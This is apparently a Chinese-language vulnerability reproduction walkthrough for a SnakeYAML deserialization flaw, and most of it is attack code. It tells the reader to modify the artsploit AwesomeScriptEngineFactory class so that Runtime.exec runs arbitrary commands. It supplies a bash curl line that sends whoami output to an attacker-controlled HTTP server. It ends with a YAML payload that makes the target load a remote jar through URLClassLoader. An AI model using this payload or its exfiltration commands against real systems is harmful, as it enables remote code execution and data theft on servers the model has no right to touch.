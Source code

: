 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGtbdiaUJ249T2fnibX8TmSWvmdRZzsdChfm4sWoeGxHzibqR4XA5QduM3w/640?wx_fmt=png&from=appmsg "")  
#### 漏洞复现(V-4.2)  
- 下载yaml反序列化payload  
工具  
  
- 该工具是通过org.yaml.snakeyaml.Yaml类来加载远程的类，通过远程类重写AwesomeScriptEngineFactory类，以此来达到执行远程恶意命令的目的。  
  
下载完工具后将  

```
src/artsploit/AwesomeScriptEngineFactory.java
```

  
文件中的  
**Runtime**  
执行语句改为你要执行的命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGDDeAymnn8GUECjGcAAL82CMGCXByhLt515tgmmDLpOnLygaibuG5E2Q/640?wx_fmt=png&from=appmsg "")  
  
eg:   

```
curl http://192.168.31.246:7000?CMDEcho=$(whoami)
```

- 地址为启动任意启动的http服务，或者dnslog都可（主要用于命令回显）  
  
- 除此之外，我们需要使用  

```
$()
```

  
命令替换，用于命令回显，因此我们改写一下命令执行函数。  
  
- 改写方法如图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGyic5Mdgk0GgcWiaRY3aGq34oZ3WFXkkhvPickjs1vubgziawY110OGLXTA/640?wx_fmt=png&from=appmsg "")  

```
String[] cmd = {
    &#34;/bin/bash&#34;,
    &#34;-c&#34;,
    &#34;curl http://192.168.31.246:7000?echo=$(whoami)&#34;
};
Runtime.getRuntime().exec(cmd);
```

- 在工具根目录 编写yaml-payload.yml文件  
  

```
!!javax.script.ScriptEngineManager [  
  !!java.net.URLClassLoader [[  
    !!java.net.URL [&#34;http://192.168.31.246:8000/yaml-payload.jar&#34;]  
  ]]  
]  
```
